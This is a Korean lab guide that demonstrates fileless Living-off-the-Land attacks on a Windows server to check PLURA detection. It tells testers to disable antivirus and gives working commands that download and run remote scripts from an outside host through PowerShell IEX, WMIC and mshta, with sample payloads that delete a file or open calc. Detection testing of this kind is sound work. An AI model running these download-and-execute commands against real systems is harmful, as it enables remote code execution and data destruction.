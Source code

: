 # 테스트 환경 구축

1. **공격 서버**
   - 웹 서버가 구축되어 있어야 합니다.
   
2. **MALSCRIPT**
   - 공격 서버의 웹루트 디렉터리 내에 위치해야 합니다. (`/var/www/html/`)
   - 침투한 파일은 웹 요청 본문으로 전달하여 웹셸(Web Shell)로 바꿀 수 있습니다.

3. **MALSCRIPT 공격문의 경로**
   - 피해 서버에서 삭제할 파일의 경로를 입력해야 합니다.

4. **피해 서버**
   - PLURA 에이전트가 설치되어 있어야 합니다.
   - 삭제할 파일 (`C:\Program Files\important-file.txt`)이 존재해야 합니다.
   - ※ 해당 경로에 파일이 존재하지 않을 경우, 공격 성공 여부를 확인할 수 없습니다.

5. **운영 환경**
   - 피해 서버는 Windows 서버로 구성해야 합니다.
   - Windows 실시간 보호 및 V3와 같은 백신 프로그램은 중지해야 합니다.

6. **명령 실행**
   - 피해 서버에서 `cmd` 또는 `PowerShell`을 관리자 권한으로 실행하여 명령문을 수행합니다.

---

# LOL 공격 및 파일리스 공격이란

### LOL (Living Off the Land) 공격
- 시스템에 설치된 합법적인 바이너리, DLL 등의 도구를 이용하여 공격하는 방식.

### 파일리스(Fileless) 공격
- 공격 파일이 피해 서버의 디스크에 저장되지 않고, 메모리에서 직접 실행되는 공격 기법.

다음은 LOL을 활용한 파일리스 공격 방법입니다. 해당 공격 수행 후 PLURA에서 탐지 내역을 확인할 수 있습니다.

---

# 공격 시연 방법

우선 침투한 파일은 웹 요청 본문으로 전달하여 웹셸(Web Shell)로 바꿀 수 있습니다. 이 공격 기법은 웹 서버를 통한 추가적인 악성 행위 수행에 활용될 수 있습니다.

## PowerShell (T1059.001)
- **PowerShell을 사용하여 파일리스 공격 수행**
- **스크립트:** `MALSCRIPT.ps1`

```powershell
Remove-Item '<피해 서버에서 삭제할 파일의 경로>'

# 예시
Remove-Item 'C:\Program Files\important-file.txt'
```

### 명령문
- `cmd`, `PowerShell` 모두 사용 가능:
```powershell
powershell -NoProfile -ExecutionPolicy Bypass -Command "IEX (New-Object Net.WebClient).DownloadString('http://ethanlabs.shop/MALSCRIPT.ps1')"
```

- **공격 성공 시:** 피해 서버의 파일이 삭제되며, PLURA에서 탐지 내역 확인 가능.

---

## Windows Management Instrumentation (T1047)
- **WMIC를 사용하여 원격 명령 실행**
- **스크립트:** `MALSCRIPT.ps1`

```powershell
Remove-Item '<피해 서버에서 삭제할 파일의 경로>'

# 예시
Remove-Item 'C:\Program Files\important-file.txt'
```

### 명령문
- `cmd`에서 수행:
```cmd
wmic process call create "powershell -NoProfile -ExecutionPolicy Bypass -Command \"IEX (New-Object Net.WebClient).DownloadString('http://ethanlabs.shop/MALSCRIPT.ps1')\""
```

- **공격 성공 시:** 피해 서버의 파일이 삭제되며, PLURA에서 탐지 내역 확인 가능.

---

## Mshta (T1218.005)
- **Mshta를 사용하여 악성 HTA 파일 실행**
- **스크립트:** `MALSCRIPT.hta`

```html
<html>
<head>
    <title>Malicious HTA</title>
    <hta:application id="oHTA"
        border="thin"
        borderstyle="normal"
        caption="yes"
        contextmenu="no"
        innerborder="no"
        maximizebutton="no"
        minimizebutton="no"
        navigable="yes"
        scroll="no"
        scrollflat="no"
        selection="yes"
        showintaskbar="yes"
        singleinstance="yes"
        sysmenu="yes"
        version="1.0"
        windowstate="normal">
    </hta:application>
    <script language="JScript">
        var shell = new ActiveXObject("WScript.Shell");
        shell.Run("calc.exe");
    </script>
</head>
<body>
    <h1>Malicious HTA</h1>
</body>
</html>
```

### 명령문
- `cmd`, `PowerShell` 모두 사용 가능:
```cmd
mshta http://ethanlabs.shop/MALSCRIPT.hta
```

- **공격 성공 시:** 피해 서버에서 "Malicious HTA" 창과 계산기가 실행되며, PLURA에서 탐지 내역 확인 가능.

---

# 주의사항
- **PowerShell, WMIC, Mshta**는 Windows 내 강력한 스크립트 실행 도구로 파일리스 공격을 수행하는 데 자주 사용됩니다.
- 공격자는 디스크에 파일을 저장하지 않고 메모리 내에서 바로 실행하여 탐지 회피를 시도합니다.
- 위 과정을 통해 PLURA의 탐지 기능과 보안 로그를 확인하세요.

---

# 공격 개요 (Mermaid Diagram)

```mermaid
graph TD
    A[공격 서버] -->|MALSCRIPT 전달| B[피해 서버]
    B -->|PowerShell 실행| C[파일 삭제 수행]
    B -->|WMIC 실행| D[명령 수행]
    B -->|Mshta 실행| E[HTA 파일 실행]
    C -->|결과 확인| F[PLURA 탐지 내역]
    D -->|결과 확인| F[PLURA 탐지 내역]
    E -->|결과 확인| F[PLURA 탐지 내역]
```
